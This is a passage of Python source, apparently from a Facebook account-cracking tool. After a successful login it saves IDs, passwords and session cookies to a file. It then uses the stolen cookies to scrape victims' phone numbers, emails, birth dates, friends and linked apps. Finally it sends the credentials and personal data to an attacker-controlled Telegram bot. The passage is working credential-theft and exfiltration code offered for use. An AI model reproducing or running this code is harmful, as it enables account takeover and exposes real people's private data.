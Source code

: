                     open('OK/' + okc, 'a').write(idf + '|' + pw + '|' + kuki + '\n')
                    user = idf
                    infoakun = ''
                    session = requests.Session()
                    get_id = session.get('https://m.facebook.com/profile.php', cookies=coki, headers=headapp).text
                    nama = re.findall('\\<title\\>(.*?)<\\/title\\>', str(get_id))[0]
                    response = session.get('https://m.facebook.com/profile.php?v=info', cookies=coki, headers=headapp).text
                    response2 = session.get('https://m.facebook.com/profile.php?v=friends', cookies=coki, headers=headapp).text
                    response3 = session.get(f'''https://m.facebook.com/{user}/allactivity/?category_key=all&section_id=year_2022&timestart=1609488000&timeend=1641023999&sectionLoadingID=m_timeline_loading_div_1641023999_1609488000_8_''', cookies=coki, headers=headapp).text
                    response4 = session.get(f'''https://m.facebook.com/timeline/app_collection/?collection_token={user}%3A184985071538002%3A32&_rdc=1&_rdr''', cookies=coki, headers=headapp).text
                    
                    try:
                        nomer = re.findall('\\<a\\ href\\="tel\\:\\+.*?">\\<span\\ dir\\="ltr">(.*?)<\\/span><\\/a>', str(response))[0]
                    except:nomer = ''
                    
                    try:
                        email = re.findall('\\<a href\\="https\\:\\/\\/lm\\.facebook\\.com\\/l\\.php\\?u\\=mail.*?" target\\=".*?"\\>(.*?)<\\/a\\>', str(response))[0].replace('&#064;', '@')
                    except:email = ''
                    
                    try:
                        ttl = re.findall('\\<\\/td\\>\\<td\\ valign\\="top" class\\=".*?"\\>\\<div\\ class\\=".*?"\\>(\\d+\\s+\\w+\\s+\\d+)<\\/div\\>\\<\\/td\\>\\<\\/tr\\>', str(response))[0]
                    except:ttl = ''
                    
                    try:
                        teman = re.findall('\\<h3\\ class\\=".*?"\\>Teman\\ \\((.*?)\\)<\\/h3\\>', str(response2))[0]
                    except:teman = ''
                    
                    try:
                        pengikut = re.findall('\\<span\\ class\\=".*?"\\>(.*?)\\<\\/span\\>', str(response4))[1]
                    except:pengikut = ''
                    
                    try:
                        tahun = ''
                        cek_thn = re.findall('\\<div\\ class\\=".*?" id\\="year_(.*?)">', str(response3))
                        for nenen in cek_thn:
                            tahun += nenen + ', '
                    except:pass
                    infoakun += f'''- ❲ OK ❳\n⥁┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉⥀\n⁂ - ID : {idf}\n⁂ - PASS : {pw}\n⥁┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉⥀\n⁂ - The Email : {email}\n⁂ - Date : {tahun}\n⁂ - The Nomber : {nomer}\n⥁┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉┉⥀\n\n◆ ➛ @ZAKI_2002 '''
                    requests.get('https://api.telegram.org/bot' + str(token) + '/sendMessage?chat_id=' + str(ID) + '&text=' + str(infoakun))
                    (hit1, hit2) = (0, 0)
                    cek = session.get('https://m.facebook.com/settings/apps/tabbed/?tab=active', cookies=coki, headers=headapp).text
                    cek2 = session.get('https://m.facebook.com/settings/apps/tabbed/?tab=inactive', cookies=coki, headers=headapp).text
                    if 'Diakses menggunakan Facebook' in re.findall('\\<title\\>(.*?)<\\/title\\>', str(cek)):
                        infoakun += 'Aplikasi Yang Terkait*\n'
                        if 'Anda tidak memiliki aplikasi atau situs web aktif untuk ditinjau.' in cek:
                            infoakun += 'Tidak Ada Aplikasi Aktif Yang Terkait *\n'
                        else:
                            infoakun += '\tAplikasi Aktif : \n'
                            apkAktif = re.findall('\\/><div\\ class\\=".*?"\\>\\<span\\ class\\=".*?"\\>(.*?)<\\/span\\>', str(cek))
                            ditambahkan = re.findall('\\<div\\>\\<\\/div\\>\\<div\\ class\\=".*?"\\>(.*?)<\\/div\\>', str(cek))
                            for muncul in apkAktif:
                                hit1 += 1